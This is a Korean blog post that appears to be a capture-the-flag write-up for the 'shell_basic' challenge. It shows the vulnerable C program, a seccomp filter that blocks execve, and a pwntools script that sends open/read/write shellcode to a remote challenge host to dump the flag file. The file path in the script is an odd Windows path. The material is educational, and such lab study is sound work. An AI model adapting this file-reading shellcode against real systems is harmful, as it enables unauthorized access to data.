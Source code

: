 ```yaml
---
layout: single
title:  ""
categories: coding
tag: [python, blog, jekyll]
toc: true
author_profile: false
---
```


<head>
  <style>
    table.dataframe {
      white-space: normal;
      width: 100%;
      height: 240px;
      display: block;
      overflow: auto;
      font-family: Arial, sans-serif;
      font-size: 0.9rem;
      line-height: 20px;
      text-align: center;
      border: 0px !important;
    }

    table.dataframe th {
      text-align: center;
      font-weight: bold;
      padding: 8px;
    }

    table.dataframe td {
      text-align: center;
      padding: 8px;
    }

    table.dataframe tr:hover {
      background: #b8d1f3; 
    }

    .output_prompt {
      overflow: auto;
      font-size: 0.9rem;
      line-height: 1.45;
      border-radius: 0.3rem;
      -webkit-overflow-scrolling: touch;
      padding: 0.8rem;
      margin-top: 0;
      margin-bottom: 15px;
      font: 1rem Consolas, "Liberation Mono", Menlo, Courier, monospace;
      color: $code-text-color;
      border: solid 1px $border-color;
      border-radius: 0.3rem;
      word-break: normal;
      white-space: pre;
    }

  .dataframe tbody tr th:only-of-type {
      vertical-align: middle;
  }

  .dataframe tbody tr th {
      vertical-align: top;
  }

  .dataframe thead th {
      text-align: center !important;
      padding: 8px;
  }

  .page__content p {
      margin: 0 0 0px !important;
  }

  .page__content p > strong {
    font-size: 0.8rem !important;
  }

  </style>
</head>


### C 코드 분석


```C



#include <fcntl.h>

#include <seccomp.h>

#include <stdio.h>

#include <stdlib.h>

#include <string.h>

#include <sys/prctl.h>

#include <unistd.h>

#include <sys/mman.h>

#include <signal.h>



void alarm_handler() {

    puts("TIME OUT");

    exit(-1);

}



void init() {

    setvbuf(stdin, NULL, _IONBF, 0);

    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);

    alarm(10);

}



void banned_execve() {

  scmp_filter_ctx ctx;

  ctx = seccomp_init(SCMP_ACT_ALLOW);

  if (ctx == NULL) {

    exit(0);

  }

  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0);

  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execveat), 0);



  seccomp_load(ctx);

}



void main(int argc, char *argv[]) {

  char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);   

  void (*sc)();

  

  init();

  

  banned_execve();



  printf("shellcode: ");

  read(0, shellcode, 0x1000);



  sc = (void *)shellcode;

  sc();

}

```


#### init() 함수 분석


입출력 버퍼를 비활성화 및 시간 초과를 검사한다.



위에서 정의하였던 alarm_handler()함수를 이용하여 10초 타이머를 설정한다.


#### banned_execve() 함수 분석


seccomp 필터 초기화 후, execve()함수와 execveat()함수를 차단하는 규칙을 지정한다.


#### main() 함수 분석


mmap함수로, 메모리를 할당한 다음, 사용자로부터 쉘 코드를 입력받아 할당된 메모리에 저장한다.



여기서 쉘 코드는 포인터로 변환되어 호출된다.



banned_execve()함수에서 execve()함수와 execveat()함수를 차단하였기 때문에 일반적인 경로와 인자를 지정하여 프로그램을 실행할 수 없다.


### pwn 코드 작성


```python

from pwn import *



p = remote('host3.dreamhack.games', 18037)

# 원격 서버를 대상으로 익스플로잇을 진행 → remote() 함수 사욛



context.arch = 'amd64'

# 익스플로잇 대상 아키텍쳐는 amd64



payload = ''

payload += shellcraft.open('C:/Users/dst78/Downloads/shell_basic/flag_name_is_loooooong')

payload += shellcraft.read('rax', 'rsp', 100)

payload += shellcraft.write(1, 'rsp', 100)

# 페이로드를 문제에서 지정한 경로로 지정

# 스켈레톤 코드는 open, read, write 순서이므로 해당 순서를 따라 코드 작성

# 파일의 위치는 문제에서 지정하였으므로 바로 open

# read 함수는 rax에 저장된 정보를 통해 syscall을 수행, rsp스택의 시작주소 기입, 크기는 상관 x

# write 또한 마찬가지로 작성



p.sendline(asm(payload))

p.interactive()

```

![image.png](/image/shell_basic_shellcode.png)

